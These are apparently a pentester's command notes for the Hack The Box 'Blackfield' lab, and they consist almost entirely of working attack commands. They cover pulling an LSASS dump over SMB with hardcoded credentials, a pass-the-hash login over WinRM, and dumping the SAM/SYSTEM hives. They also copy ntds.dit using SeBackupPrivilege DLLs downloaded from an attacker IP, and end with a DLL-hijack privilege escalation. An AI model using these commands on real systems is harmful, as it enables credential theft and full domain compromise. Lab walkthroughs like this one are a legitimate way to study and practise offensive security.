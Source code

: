 ```bash

## get error, parallel_read returned NT_STATUS_IO_TIMEOUT

## smbget, Can't read 64000 bytes at offset 512000, file smb://10.129.148.187/forensic/memory_analysis/lsass.zi
smbget  smb://$tip/forensic/memory_analysis/lsass.zip -U audit2020%Hack01@123

## mount and cp
sudo mount -t cifs -o username="audit2020",password="Hack01@123" //$tip/forensic /mnt
cp /mnt/memory_analysis/lsass.zip ./
unzip lsass.zip -d ./smbfile/lsass/

## curl download
curl --user "audit2020:Hack01@123" smb://$tip/forensic/memory_analysis/lsass.zip -o ./lsass.zip


# winrm 
crackmapexec winrm $tip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i $tip

---- privesc

# local enum
## dump creds. https://pentestlab.blog/tag/diskshadow/

reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV

## not work
secretsdump.py -sam SAM.SAV -system SYSTEM.SAV LOCAL

## error
## 2022/12/10 15:20:46 ERROR 32 (0x00000020) Copying File C:\Windows\NTDS\ntds.dit
## The process cannot access the file because it is being used by another process.
robocopy /B C:\Windows\NTDS .\ntds ntds.dit

## copy-
iwr -uri http://10.10.14.90/SeBackupPrivilegeCmdLets.dll -outfile SeBackupPrivilegeCmdLets.dll
iwr -uri http://10.10.14.90/SeBackupPrivilegeUtils.dll -outfile SeBackupPrivilegeUtils.dll

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Copy-FileSeBackupPrivilege F:\Windows\NTDS\ntds.dit c:\temp\ntds.dit -Overwrite

# dll hijack
## https://github.com/itm4n/UsoDllLoader
## https://snowscan.io/htb-writeup-blackfield/#

upload /home/kali/lab/htb/blackfield/hijack/ WindowsCoreDeviceInfo.dll c:\temp\WindowsCoreDeviceInfo.dll
upload /home/kali/lab/htb/blackfield/hijack/UsoDllLoader.exe c:\temp\usodllloader.exe
mkdir system32
move windowscorediviceinfo.dll .\system32
move UsoDllLoader.exe .\system32
robocopy /b system32 c:\windows\system32
```
